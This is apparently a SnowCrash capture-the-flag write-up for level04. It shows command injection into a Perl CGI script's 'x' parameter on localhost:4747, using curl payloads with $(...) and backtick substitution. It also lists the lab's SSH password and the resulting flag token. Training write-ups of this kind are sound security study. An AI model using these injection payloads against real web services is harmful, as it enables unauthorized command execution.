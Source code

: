 ssh level04@ip -p 4242
pwd: qi0maab88jeaj46qoumi7maus

```
level04@SnowCrash:~$ file level04.pl
    a /usr/bin/perl script, ASCII text executable
```

In Perl, CGI(Common Gateway Interface) is a protocol for executing scripts via web requests.

an interface specification that enables web servers to execute an external program

```
level04@SnowCrash:~$ /usr/bin/perl level04.pl
Content-type: text/html

```

 the most important CGI function is param(). Call it with the name of a form item, and a list of all the values of that form item will be returned.
 https://www.perl.com/pub/2000/12/begperl4.html/

quick google on how Sending Parameters via [cURL](http://conqueringthecommandline.com/book/curl#uid105)
?param=

```
level04@SnowCrash:~$ curl localhost:4747?x=$(ls)
level04@SnowCrash:~$ curl localhost:4747?x=$(pwd)
```
then why not pass a getflag command

```
level04@SnowCrash:~$ curl localhost:4747?x=$(getflag)
Check
curl: (6) Couldn't resolve host 'flag.Here'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'your'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host ''
curl: (6) Couldn't resolve host 'Nope'
curl: (6) Couldn't resolve host 'there'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'no'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host 'here'
curl: (6) Couldn't resolve host 'for'
curl: (6) Couldn't resolve host 'you'
curl: (6) Couldn't resolve host 'sorry.'
curl: (6) Couldn't resolve host 'Try'
curl: (6) Couldn't resolve host 'again'
```

a quick googling on how to skip Special characters in cURL
https://stackoverflow.com/questions/10060093/special-characters-like-and-in-curl-post-data


You can use \ sign 
or single quotes
`curl localhost:4747?x='$(getflag)'`

other alternative of command substitution is using the ``
```
curl localhost:4747?x='`getflag`'
curl localhost:4747?x=\`getflag\`
curl http://127.0.0.1:4747?x='$(getflag)'
```
or in the browser
http://10.12.100.98:4747/?x=`getflag`

token : ne2searoevaevoem4ov4ar8ap